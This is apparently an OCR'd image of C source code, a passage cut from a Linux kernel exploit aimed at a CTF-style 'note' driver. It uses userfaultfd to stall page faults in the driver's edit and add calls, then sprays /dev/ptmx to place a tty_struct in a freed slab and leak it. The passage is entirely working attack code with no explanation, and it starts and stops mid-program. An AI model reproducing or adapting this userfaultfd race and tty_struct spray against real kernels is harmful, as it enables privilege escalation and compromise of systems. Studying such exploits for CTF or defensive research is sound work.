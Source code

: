 ```cpp
}

void* edit_thread(int idx)
{
	puts("[+] edit thread start!");
	noteedit(idx, 0, stuck_mapped_memory);
	puts("[+] edit thread end!"); // won't reach here
	return NULL;
}

void* add_thread(int idx)
{
	puts("[+] add thread start!");
	noteadd(idx, 0x60, stuck_mapped_memory);
	puts("[+] add thread end!"); // won't reach here
	return NULL;
}

char buf_a[0x500] = {"aaa"};
size_t buf_tty[0x100], buf_fake_table[0x500];

int main()
{
	int pid;
	int tty_fd;

	stuck_mapped_memory = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	RegisterUserfault(stuck_mapped_memory, userfaultfd_stuck_handler);

	OpenNote();

	noteadd(0, 0x60, buf_a);
	noteadd(1, 0x60, buf_a);
	noteedit(1, 0x500, buf_a);
	noteedit(0, TTY_STRUCT_SZIE, buf_a);
	write(note_fd, buf_a, 0);


	pthread_t thr_edit, thr_add;
	pthread_create(&thr_edit, NULL, edit_thread, 0);
	sleep(1);
	pthread_create(&thr_add, NULL, add_thread, 0);
	sleep(1);
	puts("ready to open ptmx");
	for (int i = 0; i < 20; i++)
	{
		tty_fd = open("/dev/ptmx", O_RDWR);
		if (tty_fd < 0)
		{
			ErrExit("[-] ptmx open failed!");
		}
		read(note_fd, buf_tty, 0);
		if (buf_tty[0] == 0x100005401)
		{
			printf("[+] tty_struct found! fd = %d\n", tty_fd);
			break; // tty_struct used our slab
		}
	}
	if (buf_tty[0] != 0x100005401)
	{
		ErrExit("[-] leak failed");
	}
```